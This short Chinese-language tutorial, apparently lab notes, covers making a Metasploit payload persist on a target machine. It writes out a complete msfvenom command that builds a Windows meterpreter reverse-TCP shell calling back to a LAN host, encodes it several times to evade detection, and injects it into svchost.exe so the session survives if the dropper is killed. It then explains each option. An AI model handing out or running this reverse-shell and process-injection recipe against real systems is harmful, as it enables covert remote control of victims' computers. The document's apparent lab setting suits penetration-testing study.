

# payload的可持续化建立(03靶机) svchost进程污染 进程迁移

一般来说使用msfvenom生成的payload会单独开启一个进程，这种进程很容易被发现和关闭，在后期想做持久化的时候只能再使用migrate进行。
其实在生成payload时可直接使用如下命令，生成的payload会直接注入到指定进程中。
在生成payload的时候就进行进程迁移，保证会话稳定
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.149.142 LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe
PrependMigrate=true是否启用进程迁移 迁移到svchost进程中
-f 表示输出的文件类型为.exe
-o shell.exe 输出位置也可以使用 > /root/1.exe
生成的shell程序执行后会启动两个进程shell.exe和svchost.exe，关闭其中一个不会影响会话状态。
在上面的生成payload参数中：
（1）PrependMigrate=true PrependMigrateProc=svchost.exe 使这个程序默认会迁移到svchost.exe进程，自己测试的时候不建议到这个进程而是其他的持久进程。
（2）使用-p指定使用的攻击载荷模块，使用-e指定使用x86/shikata_ga_nai编码器，使用-f选项告诉MSF编码器输出格式为exe，-o选项指定输出的文件名为payload.exe，保存在根目录下。